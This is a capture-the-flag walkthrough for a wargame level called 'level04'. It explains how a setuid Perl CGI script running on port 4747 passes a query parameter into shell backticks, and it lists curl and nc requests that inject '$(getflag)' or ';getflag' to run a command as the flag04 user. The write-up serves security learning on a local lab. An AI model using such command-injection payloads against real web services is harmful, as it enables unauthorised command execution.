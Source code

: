 ## level04

From the `level04.pl` we can understand, that some server is running inside the system. <br>
We can ensure that with this command:
```bash
netstat -tulpn
```

The next thing we should notice is that \` is used in the script:
```pl
...
print `echo $y 2>&1`;
...
```
All that passed inside a \` will be executed (like `system()`). <br>

From the script permissions we can notice, that script will be running from flag04 user:
```
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

We need to pass getflag binary and use `$(getflag)` form to make it work inside the `echo` call.<br>
Or use `; getflag` to make their execution separately. <br>

The script is receiving the argument from the query string that URL-encoded, so [this site](https://www.urlencoder.org/) will be useful. 

Here's the list of some solutions:
```bash

# 1) As simple as that
curl http://localhost:4747?x=%24%28getflag%29

# 2) Or with nc
echo -e "GET /?x=%24%28getflag%29 HTTP/1.1\nHost:localhost\n\n" | nc localhost 4747

# 3) Without encoding
echo -e 'GET /?x=$(getflag) HTTP/1.1\nHost:localhost\n\n' | nc localhost 4747

# 4) Using separation
curl http://localhost:4747?x=%3Bgetflag

```